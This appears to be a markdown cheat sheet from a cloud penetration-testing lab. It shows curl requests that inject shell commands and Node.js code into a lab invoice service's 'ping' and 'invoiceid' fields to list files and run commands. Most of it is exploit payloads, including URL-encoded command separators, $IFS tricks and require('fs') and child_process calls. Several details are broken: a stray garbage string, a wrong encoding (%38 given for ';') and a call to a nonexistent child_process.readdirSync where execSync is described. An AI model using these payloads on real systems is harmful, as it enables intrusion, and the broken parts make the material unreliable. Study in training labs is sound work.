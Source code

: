 **Specifies a custom request method to use when communicating with the HTTP server**
```python3
curl -X POST http://invoice.awesome-sparrow.sec588.cloud/ping --data 'system=127.0.0.1'e[ew[edx
```
>


**Test for command injection by adding another command such as ;**
```python3
curl -X POST http://invoice.awesome-sparrow.sec588.cloud/ping --data-raw 'system=127.0.0.1%3Bid'
```
>
    --data-raw :  Used to send raw information with no filtering in cURL. Required to send the embedded commands
    %38        :  URL encoded ;


**Explore the filesystem**
```python3
curl -X POST http://invoice.awesome-sparrow.sec588.cloud/ping --data-raw 'system=127.0.0.1%3Bls%24IFS-la'
```
```
%24: URL Encoded $
IFS: IFS (In this case it would be interpreted as $IFS) stands for Internal Field Separator. In our case that would be a `space`
```

**Executing NodeJS in a shell**

The below command will read the contents of the ambassador.yaml file at the root ('fs') of the file system.
```python3
curl -X POST http://invoice.awesome-sparrow.sec588.cloud --data
"invoiceid=res.end(require('fs').readdirSync('ambassador.yaml').toString())"; echo
```
```
 - readdirSync(): allows you to ls a directory
 - readfileSync(): allows you to cat a file
```

**Double encode the forward slash / with %252**

We double encode because the front-end application would take %2F as a URL string and convert it to a second-order URL.
```python3
curl -X POST http://invoice.awesome-sparrow.sec588.cloud --data
"invoiceid=res.end(require('fs').readdirSync('%252F').toString())"; echo
```

**Trigger command execution with execSync. It will execute a command and pause the response until the command returns**
```python3
curl -X POST http://invoice.awesome-sparrow.sec588.cloud --data
"invoiceid=res.end(require('child_process').readdirSync('ls').toString())"; echo
```


  
